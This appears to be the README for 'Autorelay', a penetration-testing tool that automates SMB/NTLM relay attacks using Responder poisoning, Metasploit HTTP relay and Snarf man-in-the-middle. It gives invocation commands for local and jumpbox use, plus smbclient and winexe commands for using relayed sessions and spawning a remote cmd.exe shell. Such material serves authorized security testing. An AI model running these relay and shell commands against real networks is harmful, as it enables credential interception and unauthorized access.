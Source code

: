 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file or a list of IPs on the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

#####Local

* sudo ./autorelay.py -x local-network.xml -i eth0

* sudo ./autorelay.py -l ips.txt -i eth0

#####Remote

* sudo ./autorelay.py -x remote-network.xml -i eth0 -r 95.34.53.243 

* sudo ./autorelay.py -l ips.txt -i eth0 -r 95.34.53.243 

---


Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections


After a connection is expired (or you expire it), click "choose"


Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1


Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe -U a%a //127.0.0.1 -U cmd.exe

